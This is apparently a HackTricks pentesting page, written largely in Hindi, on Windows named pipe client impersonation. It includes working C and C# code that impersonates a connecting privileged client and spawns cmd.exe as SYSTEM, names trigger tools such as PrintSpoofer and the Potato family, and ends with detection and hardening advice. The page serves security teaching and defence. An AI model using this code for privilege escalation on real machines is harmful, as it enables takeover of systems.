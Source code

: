 # Named Pipe Client Impersonation

{{#include ../../banners/hacktricks-training.md}}

Named Pipe client impersonation एक local privilege escalation primitive है जो एक named-pipe server thread को उस client के security context को अपना लेने देता है जो इसके साथ connect करता है। व्यवहार में, एक attacker जो SeImpersonatePrivilege के साथ code चला सकता है, वह एक privileged client (उदा., एक SYSTEM service) को attacker-controlled pipe से connect कराने के लिए मजबूर कर सकता है, ImpersonateNamedPipeClient को कॉल कर सकता है, resulting token को primary token में duplicate कर सकता है, और client के रूप में (अक्सर NT AUTHORITY\SYSTEM) एक process spawn कर सकता है।

यह पेज core technique पर केंद्रित है। SYSTEM को आपके pipe से जोड़ने वाले end-to-end exploit chains के लिए, नीचे संदर्भित Potato family pages देखें।

## TL;DR
- Create a named pipe: \\.\pipe\<random> और connection का इंतजार करें।
- एक privileged component को इससे connect कराएँ (spooler/DCOM/EFSRPC/etc.)।
- pipe से कम से कम एक message पढ़ें, फिर ImpersonateNamedPipeClient को कॉल करें।
- वर्तमान thread से impersonation token खोलें, DuplicateTokenEx(TokenPrimary), और CreateProcessWithTokenW/CreateProcessAsUser का उपयोग करके एक SYSTEM process प्राप्त करें।

## आवश्यकताएँ और प्रमुख APIs
- कॉल करने वाली process/thread को सामान्यतः जिन privileges की आवश्यकता होती है:
- SeImpersonatePrivilege ताकि जुड़ने वाले client का सफलतापूर्वक impersonate किया जा सके और CreateProcessWithTokenW का उपयोग किया जा सके।
- वैकल्पिक रूप से, SYSTEM का impersonate करने के बाद, आप CreateProcessAsUser का उपयोग कर सकते हैं, जिसके लिए SeAssignPrimaryTokenPrivilege और SeIncreaseQuotaPrivilege की आवश्यकता हो सकती है (ये privileges तब संतुष्ट होते हैं जब आप SYSTEM का impersonate कर रहे हों)।
- मुख्य APIs जिनका उपयोग होता है:
- CreateNamedPipe / ConnectNamedPipe
- ReadFile/WriteFile (Impersonation से पहले कम से कम एक message पढ़ना आवश्यक है)
- ImpersonateNamedPipeClient and RevertToSelf
- OpenThreadToken, DuplicateTokenEx(TokenPrimary)
- CreateProcessWithTokenW or CreateProcessAsUser
- Impersonation level: स्थानीय रूप से उपयोगी क्रियाएँ करने के लिए, client को SecurityImpersonation की अनुमति देनी चाहिए (कई local RPC/named-pipe clients के लिए डिफ़ॉल्ट)। Clients pipe खोलते समय SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION के साथ इसे कम कर सकते हैं।

## न्यूनतम Win32 कार्यप्रवाह (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
LPCSTR pipe = "\\\\.\\pipe\\evil";
HANDLE hPipe = CreateNamedPipeA(
pipe,
PIPE_ACCESS_DUPLEX,
PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
1, 0, 0, 0, NULL);

if (hPipe == INVALID_HANDLE_VALUE) return 1;

// Wait for privileged client to connect (see Triggers section)
if (!ConnectNamedPipe(hPipe, NULL)) return 2;

// Read at least one message before impersonation
char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

// Impersonate the last message sender
if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

// Extract and duplicate the impersonation token into a primary token
HANDLE impTok = NULL, priTok = NULL;
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

// Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
0, NULL, NULL, &si, &pi)) {
// Fallback: CreateProcessAsUser after you already impersonated SYSTEM
CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

RevertToSelf(); // Restore original context
return 0;
}
```
Notes:
- यदि ImpersonateNamedPipeClient ERROR_CANNOT_IMPERSONATE (1368) लौटाता है, तो सुनिश्चित करें कि आप पहले pipe से पढ़ते हैं और कि client ने impersonation को Identification level तक सीमित नहीं किया है।
- प्रक्रिया बनाने के लिए उपयुक्त primary token बनाने हेतु DuplicateTokenEx को SecurityImpersonation और TokenPrimary के साथ प्राथमिकता दें।

## .NET त्वरित उदाहरण
.NET में, NamedPipeServerStream RunAsClient के माध्यम से impersonate कर सकता है। एक बार impersonation करने पर, thread token को duplicate करके एक process बनाएं।
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
[DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
[DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
[DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
static void Main(){
using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
s.WaitForConnection();
// Ensure client sent something so the token is available
s.RunAsClient(() => {
IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
});
}
}
```
## सिस्टम को आपकी pipe तक लाने के सामान्य ट्रिगर/जबरदस्ती
ये तकनीकें विशेषाधिकार प्राप्त सेवाओं को आपकी named pipe से कनेक्ट करके उन्हें impersonate करने के लिए मजबूर करती हैं:
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

विस्तृत उपयोग और अनुकूलता यहाँ देखें:

-
{{#ref}}
roguepotato-and-printspoofer.md
{{#endref}}
-
{{#ref}}
juicypotato.md
{{#endref}}

यदि आपको केवल pipe तैयार करने और impersonate करके service trigger से SYSTEM spawn करने का पूरा उदाहरण चाहिए, तो देखें:

-
{{#ref}}
from-high-integrity-to-system-with-name-pipes.md
{{#endref}}
-
{{#ref}}
service-triggers.md
{{#endref}}

## Troubleshooting और सावधानियाँ
- ImpersonateNamedPipeClient को कॉल करने से पहले आपको pipe से कम से कम एक संदेश पढ़ना होगा; अन्यथा आपको ERROR_CANNOT_IMPERSONATE (1368) मिलेगा।
- यदि client SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION के साथ कनेक्ट करता है, तो server पूरी तरह impersonate नहीं कर सकता; TokenImpersonationLevel के लिए GetTokenInformation के माध्यम से token का impersonation level जांचें।
- CreateProcessWithTokenW को caller पर SeImpersonatePrivilege चाहिए। यदि यह ERROR_PRIVILEGE_NOT_HELD (1314) के साथ विफल होता है, तो पहले SYSTEM का impersonate करने के बाद CreateProcessAsUser का उपयोग करें।
- यदि आप इसे harden करते हैं तो सुनिश्चित करें कि आपकी pipe का security descriptor target service को कनेक्ट करने की अनुमति देता है; डिफ़ॉल्ट रूप से, pipes under \\.\pipe server की DACL के अनुसार पहुँच योग्य होते हैं।

## Detection और hardening
- named pipe के निर्माण और कनेक्शनों की निगरानी करें। Sysmon Event IDs 17 (Pipe Created) और 18 (Pipe Connected) वैध pipe नामों के बेसलाइन के लिए और token-manipulation ईवेंट्स से पहले असामान्य, रैंडम दिखने वाले pipes पकड़ने के लिए उपयोगी हैं।
- निम्न क्रमों की तलाश करें: एक process pipe बनाता है, एक SYSTEM service कनेक्ट होता है, फिर बनानी वाली process SYSTEM के रूप में एक child spawn करती है।
- अनावश्यक service खातों से SeImpersonatePrivilege हटाकर और उच्च विशेषाधिकार वाले अनावश्यक service logons से बचकर जोखिम कम करें।
- Defensive development: untrusted named pipes से कनेक्ट करते समय SECURITY_SQOS_PRESENT के साथ SECURITY_IDENTIFICATION निर्दिष्ट करें ताकि servers अनावश्यक रूप से client का पूरी तरह impersonate न कर सकें।

## References
- Windows: ImpersonateNamedPipeClient documentation (impersonation requirements and behavior). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (walkthrough and code examples). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation

{{#include ../../banners/hacktricks-training.md}}
